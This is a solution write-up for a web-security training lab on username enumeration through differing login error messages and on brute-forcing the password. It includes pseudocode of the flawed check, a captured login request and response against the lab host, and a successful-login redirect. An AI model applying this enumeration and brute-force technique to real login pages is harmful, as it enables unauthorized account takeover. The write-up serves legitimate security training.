# Lab Description
## Lab: Username enumeration via different responses

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- Candidate usernames
- Candidate passwords

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

# Lab Solution

Note: Every time the lab starts a random user-password is picked as correct combination.

A discrepancy factor is allowing an attacker to mount a user enumeration action against the application.

```
IF USER_EXISTS(username) THEN
    password_hash=HASH(password)
    IS_VALID=LOOKUP_CREDENTIALS_IN_STORE(username, password_hash)
    IF NOT IS_VALID THEN
        RETURN Error("Invalid Password!")
    ENDIF
ELSE
   RETURN Error("Invalid Username!")
ENDIF
```






HTTP Request

```
POST /login HTTP/2
Host: 0a8000c6032f889a839d1048008600f1.web-security-academy.net
Cookie: session=ElRiZ22npD7RdZAGjuopSPpx21u1MVDa
Content-Length: 26
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Origin: https://0a8000c6032f889a839d1048008600f1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8000c6032f889a839d1048008600f1.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=carlos&password=s
```

HTTP Reply

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3140

<!DOCTYPE html>
<html>
    <head>
      [...SNIP...]
      <section>
     <p class=is-warning>Invalid username</p>
     <form class=login-form method=POST action="/login">
         <label>Username</label>
         <input required type=username name="username" autofocus>
         <label>Password</label>
         <input required type=password name="password">
         <button class=button type=submit> Log in </button>
     </form>
 </section>
    [...SNIP...]
```






















```
HTTP/2 302 Found
Location: /my-account?id=user
Set-Cookie: session=2shSygxp0wwdEWfPSFUxzf8sIyRdZuko; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

## References

https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html#protect-against-automated-attacks
rapid7.com/fundamentals/brute-force-and-dictionary-attacks/
https://www.rapid7.com/blog/post/2017/06/15/about-user-enumeration/
